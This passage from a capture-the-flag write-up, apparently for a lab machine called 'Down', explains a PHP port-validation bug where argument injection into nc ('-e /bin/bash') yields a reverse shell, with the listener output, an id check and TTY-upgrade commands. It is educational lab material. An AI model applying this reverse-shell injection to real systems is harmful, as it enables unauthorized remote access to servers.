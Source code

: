 ### Exploit

#### Vulnerability

The problem with the above code is that it converts the `$port` value to an int (`$port_int`) and validates that value, but then it uses the original input in the command!

`intval` will get the valid integer from the start of the string:

```

php > echo intval("1234 this is a test");
1234

```

So this code turns the string into an int, validates that it’s an int, and then uses the original string!

`escapeshellcmd` will prevent command injection, but it will not prevent parameter injection. So I can send `-e /bin/bash` and try to get a shell!

#### Shell

Client side validation rules prevent me from entering my payload directly into the form:

![image-20250502180111558](/img/image-20250502180111558.png)

I’ll send a legit request to Burp Repeater, and add my payload:

![image-20250502180428208](/img/image-20250502180428208.png)

This request just hangs, but after a few seconds, there’s a connection at my listening `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.129.234.87 45706

```

`nc -e /bin/bash` doesn’t print a prompt, but I’ll enter `id` and it returns the results:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.129.234.87 45706
‍id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

I’ll upgrade my shell using the [standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

www-data@down:/var/www/html$ script /dev/null -c /bin/bash
Script started, output log file is '/dev/null'.
www-data@down:/var/www/html$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
‍            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@down:/var/www/html$ 

```
